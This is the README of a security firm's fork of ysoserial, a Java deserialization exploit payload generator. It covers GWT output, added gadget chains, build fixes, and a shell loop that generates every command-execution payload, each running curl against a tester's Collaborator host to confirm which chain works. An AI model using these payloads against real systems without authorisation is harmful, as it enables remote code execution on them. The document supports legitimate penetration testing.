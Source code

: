 # ysoserial - Bishop Fox fork

This is a fork of [ysoserial](https://github.com/frohoff/ysoserial) that incorporates some additional features. Refer to the original project for most of the documentation.

## GWT serialization output

The original motivation for this fork was to add support for the nonstandard serialization format used by Google Web Toolkit (GWT). To output in GWT format, add the `--gwt` option, with a field name, e.g. `--gwt default`, `--gwt bishopfox`, etc. It's not necessary to pick a valid field name, but GWT will get a little farther in its deserialization logic if the field name is valid for the type of object the payload is being injected into, and this might be beneficial in some cases.

You can try out the GWT serialization output feature using [the example vulnerable GWT web app](https://github.com/BishopFox/VulnerableGWTApp) discussed in [the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog/gwt-unpatched-unauthenticated-java-deserialization-vulnerability)

## Merged back-catalogue pull requests

This fork also includes content from 11 unmerged pull requests in the mainline project that seemed useful:

* [PR#200 - Jython2 payload](https://github.com/frohoff/ysoserial/pull/200) (renamed Jython3 to avoid conflict with PR#153)
* [PR#192 - MozillaRhino3 payload](https://github.com/frohoff/ysoserial/pull/192)
* Partial implementation of [PR#189 - Improved command-line handling](https://github.com/frohoff/ysoserial/pull/189) (adds the argument-handling logic, but not the -s and -p options because they seemed potentially fragile)
* [PR#184 - Improved C3P0 payload](https://github.com/frohoff/ysoserial/pull/184) (implemented as a new "C3P02" payload so the original version can still be easily used)
* [PR#177 - WildFly1 payload](https://github.com/frohoff/ysoserial/pull/177)
* [PR#172 - TLS support for RMIRegistryExploit utility](https://github.com/frohoff/ysoserial/pull/172)
* [PR#167 - ROME2 payload](https://github.com/frohoff/ysoserial/pull/167)
* [PR#162 - RMIRegistryExploit utility should only call createMemoitizedProxy if the payload is not already a Remote instance](https://github.com/frohoff/ysoserial/pull/162)
* [PR#159 - Jdk7u21variant payload](https://github.com/frohoff/ysoserial/pull/159)
* [PR#153 - Jython2 and JythonZeroFile payloads](https://github.com/frohoff/ysoserial/pull/153)
* [PR#134 - Improved help message output](https://github.com/frohoff/ysoserial/pull/134) (modified the default width from 210 to 80 for better compatibility)

# Usage

You can try skipping the build steps below and using the precompiled JAR file available in the releases list for this repo.

Otherwise, compile the code using the same steps as for the main project (version 11 JRE, etc.):

```
mvn clean package -DskipTests
```

Once compiled, using this fork of `ysoserial` is the same as the standard version unless you want to output in GWT mode.

```
Usage: java -jar ysoserial-[version]-all.jar [options] <payload> '<command>'
  Options:
    -h,--help                  Print usage
    -G,--gwt <field name>      Output in Google Web Toolkit (GWT) serialization format:
      ex. --gwt default
```

## Build error troubleshooting

### ysoserial requires Java 11

You may receive errors similar to the following if you attempt to compile `ysoserial` using a Java runtime newer than version 11:

```
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-compiler-plugin:3.5.1:compile (default-compile) on project ysoserial: Compilation failure: Compilation failure: 
[ERROR] error: Source option 6 is no longer supported. Use 7 or later.
[ERROR] error: Target option 6 is no longer supported. Use 7 or later.
```

As briefly mentioned above, Java 11 is required to build the standard version of `ysoserial`, as well as this fork. You will need to install a version 11 JRE (make sure it is not headless, as X Window support is required), and then configure your system/session to use that JRE by default. For example, you could updated your `JAVA_HOME` environment variable to point to the JDK 11 home directory in the same terminal session as the one where you're running `mvn` commands. When you run the `java -version` command in that session, it should indicate some variation of 11, or the build will fail. The steps for installing and configuring a specific JRE depend greatly on your OS and other factors.

### Missing javax.interceptor-api library

You may receive errors similar to the following, depending on your Linux distribution, how long you've had Maven installed on it, etc.:

```
[WARNING] The POM for javax.interceptor:javax.interceptor-api:jar:3.1 is missing, no dependency information available
...omitted for brevity...
[ERROR] Failed to execute goal on project ysoserial: Could not resolve dependencies for project ysoserial:ysoserial:jar:0.0.6-SNAPSHOT: The following artifacts could not be resolved: javax.interceptor:javax.interceptor-api:jar:3.1 (absent): javax.interceptor:javax.interceptor-api:jar:3.1 was not found in
https://repo.jenkins-ci.org/public/
during a previous attempt. This failure was cached in the local repository and resolution is not reattempted until the update interval of jenkins has elapsed or updates are forced -> [Help 1]
```

If so, unpack the file `lib/javax.interceptor-api-3.1.tar.gz` into your user-level Maven directory (usually `~/.m2`). Doing so should result in the creation of a subdirectory named `repository/javax/interceptor/javax.interceptor-api` containing at least four files. The root cause is that the 3.1 library was built, released, and many projects added it as a depenedency, then [the maintainers decided it was a mistake and deleted the library](https://github.com/jakartaee/interceptors/issues/4). This repo may be updated at a later date to use a different version of the library so that this step is not necessary.

### Newer versions of Maven may require pom.xml syntax update

You may receive the following error if you are using a newer version of Maven:

```
[ERROR] Failed to execute goal org.apache.maven.plugins:maven-assembly-plugin:3.6.0:single (make-assembly) on project ysoserial: Execution make-assembly of goal org.apache.maven.plugins:maven-assembly-plugin:3.6.0:single failed: parameter 'descriptor' has been removed from the plugin, please verify documentation. -> [Help 1]
[ERROR]
```

If so, replace the existing `pom.xml` file with the content of the `pom-newer_maven.xml` file.

# Quickly trying all command execution payloads

Trying `URLDNS` first with a URL based on your Burp Suite Collaborator hostname is always a good idea, because most systems can resolve public DNS names. If you've confirmed that `URLDNS` works, but want to attempt actual code execution, this section provides an option for building all of the OS command execution payloads, which you can then copy/paste into Burp Repeater or similar.

These steps generate all possible OS command execution payloads for testing in conjunction with a Burp Suite Collaborator server in a way that will let you know which (if any) succeeded. The way this is accomplished is by executing a command that makes and HTTP request to your Collaborator server for a URI named after the payload. So if you see entries in your Collaborator console for `/CommonsBeanutils1`, you know that the `CommonsBeanutils1` gadget chain works against the target.

This example uses `curl`, which will of course fail if a system is vulnerable but does not have `curl` installed. You could modify the steps to try the same approach using `wget`, `nc`, etc. If none of those work, you could use `ping -c3`, `nslookup`, or `host`, but those will only let you know that a command succeeded, not which payload was responsible. 

First create a file named `command_execution_payloads.txt` containing the following lines:

```
BeanShell1
C3P0
C3P02
Click1
Clojure
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
Groovy1
Hibernate1
Hibernate2
JavassistWeld1
JBossInterceptors1
Jdk7u21
Jdk7u21variant
JSON1
Jython2
Jython3
JythonZeroFile
MozillaRhino1
MozillaRhino2
MozillaRhino3
ROME
ROME2
Spring1
Spring2
Vaadin1
```

Then execute the following commands, substituting the Collaborator DNS name and your `ysoserial` JAR path (e.g. `target/ysoserial-0.0.6-SNAPSHOT-all.jar`) where indicated. 

```
export COLLABORATOR="<your Collaborator DNS name here>"
export YSOSERIAL="<your ysoserial JAR path here>"
export FIELDNAME="bishopfox"
mkdir "payloads-${COLLABORATOR}-curl"

while read pn; do \
   java -jar "${YSOSERIAL}" \
   --gwt "${FIELDNAME}" \
   "${pn}" \
   "curl http://${COLLABORATOR}/${pn}" \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' \
   > "payloads-${COLLABORATOR}/${pn}.bin.b64"; \
   done<command_execution_payloads.txt
```

You can then copy/paste the payloads into Burp Repeater or similar.
